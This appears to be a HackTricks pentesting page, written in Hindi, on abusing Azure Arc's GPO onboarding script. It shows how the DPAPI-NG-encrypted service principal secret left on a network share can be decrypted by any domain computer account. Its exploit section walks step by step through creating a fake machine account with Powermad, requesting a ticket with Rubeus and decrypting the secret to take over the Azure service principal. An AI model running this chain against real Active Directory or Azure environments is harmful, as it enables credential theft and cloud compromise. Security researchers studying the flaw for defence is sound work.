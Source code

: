 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### समस्याओं की पहचान करना

Azure Arc नए आंतरिक सर्वरों (जुड़े हुए डोमेन सर्वर) को Azure Arc में Group Policy Object विधि का उपयोग करके एकीकृत करने की अनुमति देता है। इसे सुविधाजनक बनाने के लिए, Microsoft एक तैनाती उपकरण प्रदान करता है जो ऑनबोर्डिंग प्रक्रिया को प्रारंभ करने के लिए आवश्यक है। ArcEnableServerGroupPolicy.zip फ़ाइल के अंदर, निम्नलिखित स्क्रिप्टें पाई जा सकती हैं: DeployGPO.ps1, EnableAzureArc.ps1, और AzureArcDeployment.psm1।

जब इसे निष्पादित किया जाता है, तो DeployGPO.ps1 स्क्रिप्ट निम्नलिखित कार्य करती है:

1. स्थानीय डोमेन के भीतर Azure Arc Servers Onboarding GPO बनाती है।
2. EnableAzureArc.ps1 ऑनबोर्डिंग स्क्रिप्ट को ऑनबोर्डिंग प्रक्रिया के लिए बनाए गए निर्दिष्ट नेटवर्क शेयर में कॉपी करती है, जिसमें Windows इंस्टॉलर पैकेज भी शामिल है।

इस स्क्रिप्ट को चलाते समय, सिस्टम प्रशासकों को दो मुख्य पैरामीटर प्रदान करने की आवश्यकता होती है: **ServicePrincipalId** और **ServicePrincipalClientSecret**। इसके अतिरिक्त, इसे डोमेन, शेयर होस्ट करने वाले सर्वर का FQDN, और शेयर नाम जैसे अन्य पैरामीटर की भी आवश्यकता होती है। स्क्रिप्ट को टेनेट आईडी, संसाधन समूह, और अन्य आवश्यक जानकारी जैसे विवरण भी प्रदान करने होंगे।

एक एन्क्रिप्टेड सीक्रेट निर्दिष्ट शेयर पर AzureArcDeploy निर्देशिका में DPAPI-NG एन्क्रिप्शन का उपयोग करके उत्पन्न होता है। एन्क्रिप्टेड सीक्रेट को encryptedServicePrincipalSecret नामक फ़ाइल में संग्रहीत किया जाता है। इसका प्रमाण DeployGPO.ps1 स्क्रिप्ट में पाया जा सकता है, जहां एन्क्रिप्शन को $descriptor और $ServicePrincipalSecret को इनपुट के रूप में कॉल करके किया जाता है। डिस्क्रिप्टर में Domain Computer और Domain Controller समूह SIDs शामिल होते हैं, यह सुनिश्चित करते हुए कि ServicePrincipalSecret केवल Domain Controllers और Domain Computers सुरक्षा समूहों द्वारा डिक्रिप्ट किया जा सकता है, जैसा कि स्क्रिप्ट टिप्पणियों में उल्लेख किया गया है।
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

हमारे पास निम्नलिखित शर्तें हैं:

1. हम आंतरिक नेटवर्क में सफलतापूर्वक प्रवेश कर चुके हैं।
2. हमारे पास Active Directory के भीतर एक कंप्यूटर खाते को बनाने या उस पर नियंत्रण करने की क्षमता है।
3. हमने AzureArcDeploy निर्देशिका को समाहित करने वाले एक नेटवर्क शेयर का पता लगाया है।

AD वातावरण में एक मशीन खाते को प्राप्त करने के कई तरीके हैं। सबसे सामान्य तरीकों में से एक मशीन खाता कोटा का शोषण करना है। एक और तरीका कमजोर ACLs या विभिन्न अन्य गलत कॉन्फ़िगरेशन के माध्यम से मशीन खाते से समझौता करना है।
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
एक बार जब एक मशीन खाता प्राप्त हो जाता है, तो इस खाते का उपयोग करके प्रमाणीकरण करना संभव है। हम या तो netonly ध्वज के साथ runas.exe कमांड का उपयोग कर सकते हैं या Rubeus.exe के साथ पास-दी-टिकट का उपयोग कर सकते हैं।
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
हमारी कंप्यूटर खाता के लिए TGT को मेमोरी में संग्रहीत करके, हम सेवा प्रमुख रहस्य को डिक्रिप्ट करने के लिए निम्नलिखित स्क्रिप्ट का उपयोग कर सकते हैं।
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
वैकल्पिक रूप से, हम [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) का उपयोग कर सकते हैं।

इस बिंदु पर, हम ArcInfo.json फ़ाइल से Azure से कनेक्ट करने के लिए आवश्यक शेष जानकारी एकत्र कर सकते हैं, जो एन्क्रिप्टेडServicePrincipalSecret फ़ाइल के समान नेटवर्क शेयर पर संग्रहीत है। इस फ़ाइल में विवरण शामिल हैं: TenantId, servicePrincipalClientId, ResourceGroup, और अधिक। इस जानकारी के साथ, हम Azure CLI का उपयोग करके समझौता किए गए सेवा प्रमुख के रूप में प्रमाणीकरण कर सकते हैं।

## संदर्भ

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
